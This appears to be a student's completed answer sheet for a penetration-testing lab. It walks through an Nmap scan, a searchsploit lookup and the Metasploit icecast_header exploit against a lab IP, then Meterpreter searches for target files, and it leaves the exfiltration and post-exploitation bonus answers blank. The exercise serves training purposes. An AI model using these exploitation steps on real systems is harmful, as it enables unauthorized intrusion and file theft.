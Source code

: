 1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap <ip> -sV -O -A` I'll use `-A` since i don't fear detection of a scan in this case
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use exploit/windows/http/icecast_header` why use numbers instead of tab autocomplete?
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `show options` `set rhost 192.168.0.20` `show options`
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile.txt*`
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  `search -f *recipe.txt*`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: 
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: 
 
C. Run the command that displays the target's computer system information:

   > Answer: 
